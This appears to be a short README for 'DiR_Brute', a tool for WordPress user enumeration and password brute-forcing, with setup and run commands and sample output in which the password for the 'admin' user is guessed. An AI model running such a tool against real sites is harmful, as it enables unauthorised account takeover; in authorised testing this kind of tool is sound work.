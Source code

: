 DiR_Brute
=======

Wordpress user enumeration and password bruteforce.

####User Setup:
<code>$ ./Setup.sh</code>

####Script use:
<code>$ ./dirbrute 'example.com' 'listfile name'</code>
<pre>
[+] Bruteforcing user [admin]
123456
test123
123test123
The password is: 123test123
</pre>
